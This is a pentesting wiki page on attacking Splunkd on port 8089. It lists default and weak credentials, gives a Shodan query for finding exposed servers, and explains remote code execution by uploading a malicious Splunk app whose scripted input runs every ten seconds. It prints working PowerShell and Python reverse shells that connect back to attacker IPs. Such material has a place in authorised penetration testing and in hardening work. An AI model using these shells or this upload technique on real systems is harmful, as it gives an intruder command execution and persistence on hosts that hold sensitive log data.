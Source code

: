 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}

## **Basic Information**

* Log analytics tool used for data gathering, analysis, and visualization
* Commonly used in security monitoring and business analytics
* Default ports:
  * Web server: 8000
  * Splunkd service: 8089

### Vulnerability Vectors:

1. Free Version Exploitation

* Trial version automatically converts to free version after 60 days
* Free version lacks authentication
* Potential security risk if left unmanaged
* Administrators may overlook security implications

2. Credential Weaknesses

* Older versions: Default credentials `admin:changeme`
* Newer versions: Credentials set during installation
* Potential for weak password use (e.g., `admin`, `Welcome`, `Password123`)

3. Remote Code Execution Opportunities

* Multiple code execution methods:
  * Server-side Django applications
  * REST endpoints
  * Scripted inputs
  * Alerting scripts
* Cross-platform support (Windows/Linux)
* Scripted inputs can run:
  * Bash scripts
  * PowerShell scripts
  * Batch scripts

Key Exploitation Potential:

* Sensitive data storage
* Lack of authentication in free version
* Multiple vectors for potential remote code execution
* Possibility of leveraging scripted inputs for system compromise

### Shodan

* `Splunk build`

## RCE

### Create Custom Application

Splunk offers a sophisticated method for remote code execution through custom application deployment, leveraging its cross-platform scripting capabilities. The core exploitation technique revolves around creating a malicious application that can execute reverse shells on both Windows and Linux systems.

A custom application can run **Python, Batch, Bash, or PowerShell scripts**. Moreover, **Splunk comes with Python installed**, so even in **Windows** systems you will be able to run python code.

You can use [**this**](https://github.com/0xjpuff/reverse_shell_splunk) example with the **`bin`** containing example for [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Or you could create your own.

The exploitation process follows a consistent methodology across platforms:

```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```

The critical configuration file `inputs.conf` enables the script by:

* Setting `disabled = 0`
* Configuring a 10-second execution interval
* Defining the script's source type

Deployment is straightforward:

1. Create the malicious application package
2. Set up a listener (Netcat/socat) on the attacking machine
3. Upload the application through Splunk's interface
4. Trigger automatic script execution upon upload

Sample Windows PowerShell reverse shell:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
};
$client.Close()
```

Sample Linux Python reverse shell:

```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```

### RCE & Privilege Escalation

In the following page you can find an explanation how this service can be abused to escalate privileges and obtain persistence:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}
